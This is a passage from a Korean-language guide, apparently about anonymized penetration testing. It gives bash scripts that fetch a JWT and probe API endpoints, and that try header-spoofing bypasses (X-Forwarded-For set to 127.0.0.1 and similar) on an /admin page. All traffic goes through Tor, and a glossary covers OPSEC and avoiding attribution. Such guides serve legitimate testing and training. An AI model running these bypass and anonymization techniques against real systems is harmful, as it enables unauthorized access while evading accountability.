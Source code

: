 #### 🎯 **시나리오 2: API 엔드포인트 테스트**

```bash
#!/bin/bash
API_BASE="https://api.target.com"

# JWT 토큰 획득
TOKEN=$(torsocks curl -s -X POST "$API_BASE/auth" \
  -H "Content-Type: application/json" \
  -d '{"username":"test","password":"test"}' | jq -r '.token')

# API 엔드포인트 테스트
for endpoint in users orders products; do
  echo "[+] Testing /$endpoint"
  torsocks curl -s -H "Authorization: Bearer $TOKEN" \
    "$API_BASE/$endpoint" | jq .
  sleep 2
done
```

#### 🎯 **시나리오 3: 우회 기법 조합**

```bash
#!/bin/bash
TARGET="http://target.com/admin"

# 다양한 우회 기법 시도
BYPASS_HEADERS=(
  "X-Forwarded-For: 127.0.0.1"
  "X-Real-IP: 127.0.0.1"
  "X-Originating-IP: 127.0.0.1"
  "X-Remote-IP: 127.0.0.1"
  "X-Client-IP: 127.0.0.1"
)

for header in "${BYPASS_HEADERS[@]}"; do
  echo "[+] 시도: $header"
  response=$(torsocks curl -s -w "%{http_code}" -H "$header" "$TARGET")
  echo "응답 코드: $response"

  if [[ "$response" == *"200"* ]]; then
    echo "[!] 우회 성공: $header"
    break
  fi
  sleep 3
done
```

### 9. 핵심 용어 정리

| 용어        | 영문            | 설명                              |
| ----------- | --------------- | --------------------------------- |
| 익명화      | Anonymization   | 사용자 신원을 숨기는 기술         |
| 프록시 체인 | Proxy Chain     | 다중 프록시를 통한 연결           |
| DNS 누출    | DNS Leak        | DNS 쿼리가 프록시를 우회하는 현상 |
| 핑거프린팅  | Fingerprinting  | 클라이언트 특성 식별 기술         |
| 회로 재설정 | Circuit Renewal | Tor 연결 경로 변경                |
| 사이드 채널 | Side Channel    | 부가적인 정보 누출 경로           |
| 어트리뷰션  | Attribution     | 공격 행위자 식별                  |
| 작전보안    | OPSEC           | 작전 중 보안 유지                 |